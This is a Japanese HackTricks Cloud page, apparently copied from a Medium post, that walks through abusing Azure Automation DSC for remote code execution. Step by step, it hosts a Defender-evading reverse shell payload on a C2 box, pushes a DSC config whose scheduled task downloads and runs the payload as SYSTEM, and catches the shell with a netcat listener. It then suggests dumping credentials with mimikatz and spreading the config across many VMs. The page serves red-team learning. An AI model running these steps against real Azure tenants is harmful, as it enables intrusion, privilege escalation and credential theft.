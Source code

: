 # Az - State Configuration RCE

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をご覧ください！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

**この投稿は** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe) **からコピーされました**

### リモートサーバー（C2）インフラの準備 <a href="#f0fa" id="f0fa"></a>

リモートサーバー「40.84.7.74」、つまりKaliボックスから、NishangのInvoke-PowerShellTcp.ps1ペイロードの簡略版をホストします。ペイロード名は「RevPS.ps1」です。NishangスクリプトがWindows Defenderによって何らかの理由で削除されないように（もしかするとファイルをディスクにドロップしたいかもしれません）、Defenderを回避することができる軽量版がこちらにあります：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1)。これはKaliボックス上のシンプルなPython Simple Serverによってホストされます。

### ステップ1 — ファイルの作成 <a href="#89de" id="89de"></a>

別のDSC設定ファイルを作成する必要があります。テンプレートはこちらからダウンロードできます：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)。この設定ファイルは、以前に使用した同じファイル書き込み機能を使用します。今回は、リモートサーバーからペイロードをダウンロードして実行するコードが含まれています。また、_ComputerManagementDsc_ モジュールから利用可能なスケジュールされたタスク機能を使用しています。スケジュールされたタスク機能は、後で実行とSYSTEM権限の取得において重要な役割を果たします。

VMに設定を公開するために使用されるスクリプトもダウンロードします。こちらにあります：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)。

これらのファイルはテンプレートとして機能します。**変数名やパラメータを、あなたが使用しているもので埋める必要があります**。これには、リソース名、ファイルパス、および使用している外部サーバー/ペイロード名が含まれます。コード内のコメントを参照してください。

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### ステップ2 — 設定ファイルの圧縮 <a href="#c2c2" id="c2c2"></a>

2つのファイルを作成したら、**「reverse\_shell\_config.ps1」** ファイルをzip圧縮して、ストレージアカウントに送信できるようにします
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### ステップ 3 — ストレージコンテキストの設定とアップロード <a href="#bed9" id="bed9"></a>

再度、私のストレージアカウントのコンテキストを設定します。これは既に完了しています。私はすでに '**azure-pentest**' という名前のコンテナを持っているので、ここに公開します：
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### ステップ 4 — Kali Box の準備 <a href="#20fb" id="20fb"></a>

Kali box では、PowerShell ペイロードを _wget_ で簡単に取得できます。生のリバースシェルスクリプトはこちらにあります: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1)。
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

リバースシェルスクリプトを編集し、実行された際にWindows VMが接続先を知るために、私たちのパラメータを追加する必要があります。私の場合、以下を追加しました：
```
```
RevPShell -Reverse 40.84.7.73 443
```
### ステップ 5 — 設定ファイルの公開 <a href="#9ad6" id="9ad6"></a>

次に、設定ファイルを実行します。私は視覚的にわかりやすいようにデスクトップに公開するように設定していますが、ほぼどこにでも公開することができます。数分後、リバースシェルスクリプトが公開されたことがわかります！

### ステップ 6 — ペイロードのホスティングとリスナーの設定 <a href="#c55f" id="c55f"></a>

設定を公開したら、ペイロードをホストするためにポート80でPython SimpleHTTPServerを同時に開始し、接続をキャッチするためにnetcatリスナーを設定します：
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
スケジュールされたタスクが実行され、ペイロードが取得され、**SYSTEM** レベルの権限でメモリ内で実行されたことが確認できます！

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### まとめ <a href="#1ec2" id="1ec2"></a>

これで多くの可能性が開かれました。**SYSTEM** としてシェルを実行しているので、mimikatzを使ってクレデンシャルをダンプすることができます（クラウドリソースのEDRの成熟度によってはリスクがあるかもしれません）。クレデンシャルをダンプすると、これらを異なるリソース間で再利用できる可能性が高くなります。最後に、重要なポイントは、これを1つのVMに限定するのではなく、複数のVMにこの設定を適用する可能性があることです。

この点について、Azure Automation DSCの冒険はこれで終わりです！楽しんで、多くを学び、独自の創造性でさらに拡張していくことを願っています。

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSのハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの**会社を広告したい、または**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**する。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
